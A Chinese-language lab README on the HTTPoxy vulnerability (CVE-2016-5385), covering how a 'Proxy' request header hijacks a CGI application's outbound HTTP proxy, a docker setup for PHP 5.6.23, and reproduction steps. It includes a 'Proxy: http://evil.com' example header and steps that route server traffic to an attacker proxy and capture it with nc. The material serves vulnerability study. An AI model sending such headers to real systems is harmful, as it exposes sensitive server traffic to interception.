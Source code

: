# HTTPoxy漏洞（CVE-2016-5385）

根据RFC 3875规定，CGI（fastcgi）要将用户传入的所有HTTP头都加上`HTTP_`前缀放入环境变量中，而恰好大多数类库约定俗成会提取环境变量中的`HTTP_PROXY`值作为HTTP代理地址。于是，恶意用户通过提交`Proxy: http://evil.com`这样的HTTP头，将使用缺陷类库的网站的代理设置为`http://evil.com`，进而窃取数据包中可能存在的敏感信息。

PHP5.6.24版本修复了该漏洞，不会再将`Proxy`放入环境变量中。本环境使用PHP 5.6.23为例。

当然，该漏洞不止影响PHP，所有以CGI或Fastcgi运行的程序理论上都受到影响。CVE-2016-5385是PHP的CVE，HTTPoxy所有的CVE编号如下：

- CVE-2016-5385: PHP
- CVE-2016-5386: Go
- CVE-2016-5387: Apache HTTP Server
- CVE-2016-5388: Apache Tomcat
- CVE-2016-6286: spiffy-cgi-handlers for CHICKEN
- CVE-2016-6287: CHICKEN’s http-client
- CVE-2016-1000104: mod_fcgi
- CVE-2016-1000105: Nginx cgi script
- CVE-2016-1000107: Erlang inets
- CVE-2016-1000108: YAWS
- CVE-2016-1000109: HHVM FastCGI
- CVE-2016-1000110: Python CGIHandler
- CVE-2016-1000111: Python Twisted
- CVE-2016-1000212: lighttpd

参考链接：

- https://httpoxy.org/
- http://www.laruence.com/2016/07/19/3101.html

## 环境搭建

启动一个基于PHP 5.6.23 + GuzzleHttp 6.2.0的应用：

```
docker-compose up -d
```

Web页面原始代码：[index.php](www/index.php)

## 漏洞复现

正常请求`http://your-ip:8080/index.php`，可见其Origin为当前请求的服务器，二者IP相等：

![](1.png)

在其他地方启动一个可以正常使用的http代理，如`http://*.*.122.65:8888/`。

附带`Proxy: http://*.*.122.65:8888/`头，再次访问`http://your-ip:8080/index.php`：

![](2.png)

如上图，可见此时的Origin已经变成`*.*.122.65`，也就是说真正进行HTTP访问的服务器是`*.*.122.65`，也就是说`*.*.122.65`已经将正常的HTTP请求代理了。

在`*.*.122.65`上使用NC，就可以捕获当前请求的数据包，其中可能包含敏感数据：

![](3.png)
